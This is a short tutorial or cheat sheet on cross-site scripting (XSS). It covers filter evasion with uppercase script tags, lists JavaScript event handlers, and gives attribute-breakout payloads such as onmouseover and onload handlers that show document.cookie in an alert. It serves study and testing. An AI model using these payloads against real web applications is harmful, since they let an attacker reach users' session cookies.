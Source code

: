 ### Filter Evasion
Typically, XSS vulnerabilities can be tested by submitting arbitrary JavaScript code in any user input.

Uppercase tag instead of the lowercase to bypass filter:
```
<SCRIPT>
```

### JavaScript Event Handlers
Event handlers are the functions that allow JavaScript to `react` to specific actions on the web application.

Some handlers are:
- `onclick`: triggers whenever a user clicks on an element
- `onmouseover`: when the mouse hovers over an element
- `onload`: when an element is loaded
- `onmouseout`: when the mouse leaves an element

### Event Handlers and XSS
Event handlers can be used to enable XSS attacks, especially if script tags are filtered, as script tags aren't required for event handler code.
```
onclick=alert("Hello")

<div id="test" onclick="alert(document.cookie)">
```

```
" onclick=<script>alert(document.cookie)</script>

<script>alert(document.cookie)</script>

" onload="alert(document.cookie)
```

Input this handler and hover the mouse:
```
" onmouseover="alert(document.cookie)
```